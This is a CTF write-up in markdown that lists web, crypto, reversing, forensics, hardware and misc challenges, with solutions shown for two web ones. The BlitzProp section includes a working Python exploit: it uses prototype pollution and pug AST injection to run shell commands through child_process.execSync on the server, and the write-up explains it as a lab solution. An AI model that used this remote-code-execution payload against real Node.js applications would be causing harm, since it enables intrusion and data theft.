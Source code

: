# DarkCTF Writeups
Author: [Gallifrey](https://github.com/gall1frey)

### Contents
- [Web](#web)
    - [Inspector Gadget](#inspectorGadget)
    - [BlitzProp](#blitzProp)
    - [MiniSTRyplace](#miniSTRyplace)
    - [Caas](#caas)
    - [Wild Goose Hunt](#wildGooseHunt)
- [Crypto](#crypto)
    - [Nintendo Base64](#nintendoBase64)
    - [Phase Stream 1](#phaseStream1)
    - [Phase Stream 2](#phaseStream2)
    - [Phase Stream 3](#phaseStream3)
    - [Phase Stream 4](#phaseStream4)
    - [SoulCrabber](#soulCrabber)
    - [SoulCrabber2](#soulCrabber2)
- [Reversing](#rev)
    - [Authenticator](#authenticator)
    - [Passphrase](#passphrase)
- [Forensics](#forensics)
    - [Key mission](#keyMission)
    - [Invitation](#invitation)
    - [AlienPhish](#alienPhish)
- [Hardware](#hardware)
    - [Serial Logs](#serialLogs)
    - [Compromised](#compromised)
    - [Secure](#secure)
    - [Off The Grid](#offTheGrid)
- [Misc](#misc)
    - [Alien Camp](#alienCamp)
    - [Input as a Service](#inputAsAService)
    


# Web<a name="web"></a>
## Inspector Gadget<a name="inspectorGadget"></a>
### Solution
Was a very simple web chall. 
The web page already had the first part of the flag, ```CHTB{```. Viewing the source code got usthe next part, ```1nsp3ction_```.
Checking out the css file, we get the third part, ```c4n_r3ve4l```. Finally, checking out the main.js file gives us the last piece: ```us3full_1nf0rm4tion}```.

The flag is:
```
CHTB{1nsp3ction_c4n_r3ve4l_us3full_1nf0rm4tion}
```

## BlitzProp<a name="blitzProp"></a>
```
A tribute page to the legendary alien band called BlitzProp!
```
The challenge came with the source code, ```web_blitzprop.zip```

On starting the docker container, we are greeted with a web page that asks us to enter a favourite song. If the entered field isn't a name of one of the songs listed, we get a response saying ```Please provide us with the name of an existing song.```

### Solution
Looking at the source code that handles this:
```javascript
router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/submit', (req, res) => {
    const { song } = unflatten(req.body);

	if (song.name.includes('Not Polluting with the boys') || song.name.includes('ASTa la vista baby') || song.name.includes('The Galactic Rhymes') || song.name.includes('The Goose went wild')) {
		return res.json({
			'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user:'guest' })
		});
	} else {
		return res.json({
			'response': 'Please provide us with the name of an existing song.'
		});
	}
});
```
We can see that the input is only being checked to see if it _contains_ that string. It means we can append other stuff to our input and it won't make a difference. 
Also, there is another line worth noting:
```javascript 'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user:'guest' })```
pug.compile converts a string into a template function and executes it. This is vulnerable. We can use AST injection to execute remote code. Also, according to the zip file, the file containing the flag is called ```flag```.

The attack:
```python
import requests

TARGET_URL = '<url of the target>'

# make pollution
r=requests.post(TARGET_URL + '/api/submit', json = {
    "song.name":"Not Polluting with the boys",
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync('cat flag* > views/index.html')"
    }
})
# execute
print(requests.get(TARGET_URL).text)
```
The first part of the script overwrites ```index.html``` with the contents of the file ```flag```. So the next time we access ```index.html```, it prints out the contents of the file ```flag```.
```
CHTB{p0llute_with_styl3}
```

